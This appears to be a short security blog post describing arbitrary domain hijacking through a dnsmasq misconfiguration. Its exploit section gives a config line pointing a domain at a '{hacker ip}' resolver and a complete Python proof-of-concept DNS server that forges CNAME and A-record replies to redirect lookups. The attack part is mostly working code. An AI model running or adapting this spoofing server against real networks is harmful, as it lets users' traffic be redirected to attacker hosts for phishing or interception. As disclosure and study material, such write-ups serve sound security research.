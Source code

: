 ```yaml
---
title: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
date: 2020-09-09 16:50:00
tags: [dns, dnsmasq]
description: Arbitrary domain name hijacking caused by misconfiguration in dnsmasq
---
```


# dnsmasq
> Dnsmasq provides network infrastructure for small networks: DNS, DHCP, router advertisement and network boot. It is designed to be lightweight and have a small footprint, suitable for resource constrained routers and firewalls. It has also been widely used for tethering on smartphones and portable hotspots, and to support virtual networking in virtualisation frameworks. Supported platforms include Linux (with glibc and uclibc), Android, *BSD, and Mac OS X. Dnsmasq is included in most Linux distributions and the ports systems of FreeBSD, OpenBSD and NetBSD. Dnsmasq provides full IPv6 support.  

[dnsmasq homepage][1]

## exploit
1. add this config to `dnsmasq.conf` or `dnsmasq.d/poc.conf`
```
server=/a.net/{hacker ip}
```
then restart the dnsmasq to activate this config.  
* dnsmasq.conf is usually at /usr/local/etc/ if in mac os

2. run this code in the {hacker ip} - `poc.py`

```python
#!/usr/bin/env python3

import sys
from socket import socket, AF_INET, SOCK_DGRAM

class dns:
    def __init__(self):
        # hdr
        self.transactionID  = b"\x00\x00" # --
        self.flags          = b"\x81\x80"
        self.questionNum    = b"\x00\x01"
        self.answerRR       = b"\x00\x02"
        self.authorityRR    = b"\x00\x00"
        self.additionalRR   = b"\x00\x00"

        # queries - only one we need
        self.qname  = b"\x01a\x03net\x00" # -- 0x0c
        self.qtype  = b"\x00\x01"
        self.qclass = b"\x00\x01"

        # answers - CNAME
        self.cnameName    = b"\xc0\x0c"
        self.cnameType    = b"\x00\x05"
        self.cnameClass   = b"\x00\x01"
        self.cnameTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.cnameDataLen = b"\x00\x0d" # --
        self.cnameTarget  = b"\x07example\x03net\x00"  # --

        # answers - A
        self.aName    = b"\xc0\x19"  # --
        self.aType    = b"\x00\x01"
        self.aCLass   = b"\x00\x01"
        self.aTtl     = b"\x00\x00\x00\x20"  # domain hijack duration
        self.aDataLen = b"\x00\x04"
        self.aRecord  = b"\x01\x02\x03\x04"
    
    def _setReply(self, query: bytes):
        self.transactionID = query[:2]
        i = 0x0c
        while i < len(query):
            if query[i] == 0:
                break
            i += 1
        self.qname = query[0x0c:i+1]
        self.aName = ((len(self.qname) + 28) | 0xc000).to_bytes(2, byteorder="big")

    def build(self, query: bytes):
        """build dns response to query"""
        self._setReply(query)
        # build
        hdr = self.transactionID + self.flags + self.questionNum + self.answerRR + self.authorityRR + self.additionalRR
        query = self.qname + self.qtype + self.qclass
        answerCNAME = self.cnameName + self.cnameType + self.cnameClass + self.cnameTtl + self.cnameDataLen + self.cnameTarget
        answerA = self.aName + self.aType + self.aCLass + self.aTtl + self.aDataLen + self.aRecord

        return hdr + query + answerCNAME + answerA  


def dns_server(port: int):
    address = ('', port)
    sock = socket(AF_INET, SOCK_DGRAM)
    sock.bind(address)
    print("Listen UDP on: ", port)
    while True:
        msg, addr = sock.recvfrom(8192)
        print("recv from:", addr)
        if len(msg) > 20:
            d = dns()
            data = d.build(msg)
            sock.sendto(data, addr)


if __name__ == '__main__':
    port = 53
    if len(sys.argv) > 1 and sys.argv[1].isdigit():
        port = int(sys.argv[1])
    dns_server(port)

```

3. check hijack

![poc][2]

[1]: http://www.thekelleys.org.uk/dnsmasq/doc.html
[2]: /assets/images/poc.jpeg
